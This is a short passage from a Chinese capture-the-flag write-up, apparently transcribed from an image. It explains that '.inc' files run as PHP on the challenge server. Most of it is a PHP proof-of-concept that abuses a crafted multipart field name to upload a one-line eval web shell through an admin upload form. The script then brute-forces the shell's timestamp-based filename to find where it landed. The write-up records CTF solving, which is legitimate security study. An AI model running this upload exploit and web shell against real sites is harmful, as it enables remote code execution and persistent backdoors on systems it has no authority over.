 生成一個**virink.phar**文件，你就會發現

```
Extract_Phar::go(true);
$mimes = array(
'phps' => 2,
...，
'xsd' => 'text/plain',
'php' => 1,
'inc' => 1,
'avi' => 'video/avi',
...

```

若以，測試了下inc後綴，果真能夠執行。

出題人的腦洞果然牛逼。

關於文件名爆破，一開始Fuzz的時候、因為懶，所以順手寫了個PHP腳本的POC

```
<?php
date_default_timezone_set('UTC');
error_reporting(0);
function fuck($ext, $contents){
    $u = "4e79618700b44607c.jie.sangebaimao.com";
    $key = "file\";filename=shell.$ext\r\nContent-Type:image/jpeg\r\nv:v";  
    $fields[$key] = $contents;
    $ch = curl_init();
    curl_setopt($ch,CURLOPT_URL,"http://".$u."/admin/upload.php");
    curl_setopt($ch,CURLOPT_HEADER,true);
    curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);
    curl_setopt($ch,CURLOPT_POST,true);
    curl_setopt($ch,CURLOPT_POSTFIELDS,$fields);
    curl_setopt($ch,CURLOPT_BINARYTRANSFER,true);
    curl_setopt($ch, CURLOPT_COOKIE, 'YOU COOKIE');
    $result = curl_exec($ch);
    curl_close($ch);
    $tt = substr($result,strpos($result,'Date')+11,20);
    $t = strtotime($tt);
    if(strpos($result,'success') === FALSE)
        die('error');
    for($i = 10; $i<100;$i++){
        $url = "http://".$u."/uploads/2016/05/".md5($t.$i).'.'.$ext;
        $f = file_get_contents($url);
        if ($f && strpos($f,'virink') !== FALSE){
            print $url;
            break;
        }
    }
}
$contents =<<<TEXT
<?php eval(\$_POST[999]);?>virink
TEXT;
$ext = 'inc';
fuck($ext, $contents);
?>

```
